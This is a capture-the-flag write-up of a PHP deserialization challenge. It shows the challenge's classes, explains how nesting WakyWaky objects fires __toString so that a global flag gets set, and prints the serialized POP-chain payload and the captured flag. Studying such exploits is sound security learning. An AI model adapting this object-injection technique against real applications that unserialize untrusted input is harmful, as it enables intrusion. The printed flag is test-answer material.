 ```yaml
---
layout: default
title: PHP-Unserialize-Pop-Chain
---
```


As I learned from here, [unserialize php chain](https://vickieli.medium.com/diving-into-unserialize-pop-chains-35bc1141b69a) is injecting objects in order to get gadget. 
> POP stands for Property Oriented Programming, and the name comes from the fact that the attacker can control all of the properties of the deserialized object. Similar to ROP attacks (Return Oriented Programming), POP chains work by chaining code “gadgets” together to achieve the attacker’s ultimate goal. These “gadgets” are code snippets borrowed from the codebase that the attacker uses to further her goal.

Alright, so this is the code:
```php
$getflag = false;

class GetMessage {
    function __construct($receive) {
        if ($receive === "HelloBooooooy") {
            die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
        } else {
            $this->receive = $receive;
        }
    }

    function __toString() {
        return $this->receive;
    }

    function __destruct() {
        global $getflag;
        if ($this->receive !== "HelloBooooooy") {
            die("[FRIEND]: Hm.. you don't seem to be the friend I was waiting for..<br>");
        } else {
            if ($getflag) {
                include("flag.php");
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG."<br>";
            }
        }
    }
}

class WakyWaky {
    function __wakeup() {
        echo "[YOU]: ".$this->msg."<br>";
    }

    function __toString() {
        global $getflag;
        $getflag = true;
        return (new GetMessage($this->msg))->receive;
    }
}
```

1. We want to create a situation where there is an `GetMessage` object, and on its `receive` the value is `HelloBooooooy`.

2. We need that the global `getflag` will be true, and that's can happen only using execution of the magic method `__toString` of `WakyWaky`.

The first requirement can be achieved easily, by this snippet:
```php
$a = new GetMessage();
$a->receive = "HelloBooooooy";
```

Then, as we can see the `WakyWaky` object has this `__wakeUp` magic method, which is being called when the object gets deserialized:
```php
public function __wakeup() {
    echo "[YOU]: ".$this->msg."<br>";
}
```

If we'll inject inside `msg` another `WakyWaky` object, we will cause it to execute `__toString` of `WakyWaky`, and by this way getting the second requirement.
```php
function __toString() {
    global $getflag;
    $getflag = true;
    return (new GetMessage($this->msg))->receive;
}
```

So, we need this: `WakyWaky->$msg = WakyWaky->$msg = GetMessage->$receive = "HelloBooooooy"`

Let's build that using this code:
```php
$getMsg = new GetMessage();
$getMsg->receive = "HelloBooooooy";

$waky2 = new WakyWaky();
$waky2->msg = $getMsg;

$waky1 = new WakyWaky();
$waky1->msg = $waky2;

echo serialize($waky1)."\n";
echo var_dump($waky1);
```
And the output is:
```php
O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}

object(WakyWaky)#3 (1) {
  ["msg"]=>
  object(WakyWaky)#2 (1) {
    ["msg"]=>
    object(GetMessage)#1 (1) {
      ["receive"]=>
      string(13) "HelloBooooooy"
    }
  }
}
```

So, our final payload will be:
```
O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}
```

![FINAL](./images/PHP-Unserialize-Pop-Chain_FINAL.png)

**Flag:** ***`uns3r14liz3_p0p_ch41n_r0cks`***
